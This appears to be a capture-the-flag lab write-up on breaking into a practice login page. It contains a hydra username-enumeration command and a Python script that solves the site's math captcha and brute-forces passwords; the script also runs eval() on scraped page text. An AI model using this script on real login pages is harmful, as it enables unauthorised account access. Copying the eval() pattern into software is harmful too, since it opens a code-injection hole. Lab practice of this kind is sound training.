 ### IP

`10.10.178.173`

# Hydra

When we try to log in to the website, we can see that it says something like 
"`user <> does not exist`"

That means that, instead of trying every pair of usernames and passwords, we can first try to get the right username and the right password.

There's a simple way to do this using hydra:

`sudo hydra -L usernames.txt -p idk 10.10.178.173 http-post-form "/login:username=^USER^&password=&idk:does not exist"`

Unfortunately, it looks like after a while the website gives us an extra post form called `captcha` which provides a simple math problem for us to solve before we can actually check if the login is correct.

To solve this, I decided to write a python script using the requests library:

```python3
#!/bin/python3

import requests
import re
from time import sleep

with open('usernames.txt') as fin:
	users = [i.rstrip() for i in fin.readlines()]

with open('passwords.txt') as fin:
	pwds = [i.rstrip() for i in fin.readlines()]

url = 'http://10.10.178.173/login'

# send initial post requests a bunch of times to get captcha

data = {'username':'admin','password':'password','captcha':'0'}

for _ in range(5):
	r = requests.post(url, data=data)


working_users = []

for u in users:
	# get captcha
	html = r.text

	captcha = re.search(r'\d+ [+*-] \d+', html).group(0)

	soln = str(eval(captcha)) # kinda unsafe but welp

	data['username'] = u
	data['captcha'] = soln

	print(f'Trying user: {u}')
	r = requests.post(url, data=data)

	if('does not exist' not in r.text):
		print(u)
		print('!'*50)
		working_users.append(u)


for w in working_users: # just in case there is more than one
	print(f'Working on user: {w}')
	for p in pwds:
		html = r.text

		captcha = re.search(r'\d+ [+*-] \d+', html).group(0)

		soln = str(eval(captcha)) # kinda unsafe but welp

		data['username'] = w
		data['captcha'] = soln
		data['password'] = p
		print(f'Trying password: {p}')
		r = requests.post(url, data=data)
		if('Invalid password' not in r.text):
			print(f'{w}:{p}')
			break
```